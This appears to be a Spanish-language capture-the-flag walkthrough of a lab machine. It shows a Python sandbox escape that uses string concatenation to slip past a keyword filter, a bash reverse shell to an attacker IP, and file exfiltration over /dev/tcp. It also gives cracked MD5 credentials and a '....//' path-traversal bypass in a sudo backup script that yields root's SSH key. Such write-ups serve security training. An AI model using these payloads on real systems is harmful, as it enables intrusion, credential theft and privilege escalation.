# Code

```bash
nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.231.240 -oN scan_nmap.txt
```



Launchpad OpenSSH 8.2p1 -> Focal

```bash
nmap --script http-enum -p5000 10.129.231.240
```

No reporta nada

```bash
whatweb "http://10.129.231.240:5000"
```



Interceptando en la web la carga del recurso principal, se filtra lo que parecen las funciones que ejecutan el código



No encontramos a priori la forma de ejecutar el código

- Intentaremos diseñar alguna triquiñuela con python para ejecutar código.
Usaremos funciones built-in y jugando con stdout



Primero emplearemos
```python
print.__self__
```

- Devuelve el objeto al que pertenece *print*, que no es una función normal, sino que pertenece al módulo *built-in*
```python
builtin
```

, no es necesario usar import para cargarla, ya viene en python por defecto.
Hemos llegado al módulo *built-in* sin usar **import**



```python
getattr(print.__self__, "__import__")
```

Cuando hacemos esto estamos haciendo literalmente
```python
builtins.__import__
```

ya que la función *getattr()* lo que hace es
```python
getattr(obj, "nombre")
```

=
```python
obj.nombre
```

Hemos accedido a *import* por atributo en lugar de escribiendo la función



```python
...('os')
```

=
```python
test = os
```

Conseguimos que nuestra variable sea *os*



Podemos ejecutar con test



```python
getattr(test, 'system')
```

=
```python
os.system
```



Ejecutamos
```python
os.system('whoami')
```

Finalmente quedarían las líneas de código:
```python
test = getattr(print.__self__, '__import__')('os')
getattr(test, 'system')('whoami')
```



Pero al ejecutar esto, el sistema nos sigue detectando las palabras no permitidas como *system*, *import*, *os*.
- Al buscar las funciones por cadena, podremos concatenarlas con *'fun' + 'cion'* para bypasear la sanitización de comandos
```python
test = getattr(print.__self__, '__imp' + 'ort__')('o' + 's')
getattr(test, 'sys' + 'tem')('whoami')
```



A simple vista no obtenemos resultado, pero en lugar de ejecutar un *whoami* nos intentaremos lanzar un ping para confirmar la **RCE**

Cambiamos
```python
('whoami')
```

por
```python
('ping -c 4 10.10.17.61')
```

Nos ponemos a la escucha de trazas ICMP por la tarjeta de red de la vpn *tun0*
```bash
tcpdump -i tun0 icmp -n
```



Confirmamos la ejecución remota de código.

Ahora para ganar acceso bastará con escribir el oneliner de la shell en lugar del *ping* y ponernos a la escucha con *nc* en nuestra máquina
```python
getattr(test, 'sys' + 'tem')('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.17.61/443 0>&1\"')
```

**app-production**

## Escalada

Solo por curiosidad, podemos ver en *run_code()* cómo están excluidos los comandos



En *app.py* encontramos un archivo *database.db* de sqlite, buscaremos credenciales en el
```bash
sqlite3 /instance/database.cs
```



martin:3de6f30c4a09c27fc71932bfc68474be
development:759b74ce43947f5f4c91aeddc3e5bad3

Parecen ser contraseñas MD5 ya que tienen *32* caracteres
```bash
echo -n "759b74ce43947f5f4c91aeddc3e5bad3" | wc -c
```



La pasamos por *hashes.com*



**martin:nafeelswordsmaster**
**martin**

```bash
sudo -l
```





*backy.sh*



*task.json*





Nos pasamos el archivo *backy.sh* a nuestro local
```bash
nc -nlvp 443 > backy.sh
```

Y desde la máquina vulnerada
```bash
cat /usr/bin/backy.sh > /dev/tcp/10.10.17.61/443
```

Vemos que la parte del script que hace
```bash
/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file"
```

Se encarga de, a un archivo json que le pasamos, en el campo *directories_to_archive* (podemos verlo arriba en el archivo *task.json* la forma que va a tener esto, es un directorio), no se le pueda aplicar un directory path traversal, sustituyendo "**../**" por "", es decir evitando retroceder directorios. Los *\\* son para escapar que son dos puntos seguidos, sin \, el punto significa "todos los elementos". Esto se hace con */usr/bin/jq* que es para tratar archivos JSON, *gsub* se encarga de sustituir. Teniendo en cuenta que los directorios permitidos son */var/ y */home/*



No se podrá retroceder haciendo */home/../root* por ejemplo. Vamos a probar esa línea de comandos en nuestro *task.json* editado para intentar acceder al directorio root.



Al aplicarle la línea
```bash
/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "task.json"
```



Vemos que a nuestro directorio */home/../root* en */home/root*, lo cual fallará porque no es nada.

Podemos intentar bypasear esto haciendo que los puntos y los punto-barra se sustituyan, pero añadiendo más detrás se quede finalmente el *../* -> **....//**



Ahora queda como



Y sí se podría consultar el contenido de /root, que encapsularemos mediante *backy.sh* y descomprimiremos con tar para visualizar alguna *id_rsa*
```bash
sudo /usr/bin/backy.sh task.json
```



```bash
cd /tmp
tar -xf code_home_.._root_2026_January.tar.bz2
/tmp/root/.ssh
ssh root@localhost -i id_rsa
```

**root**
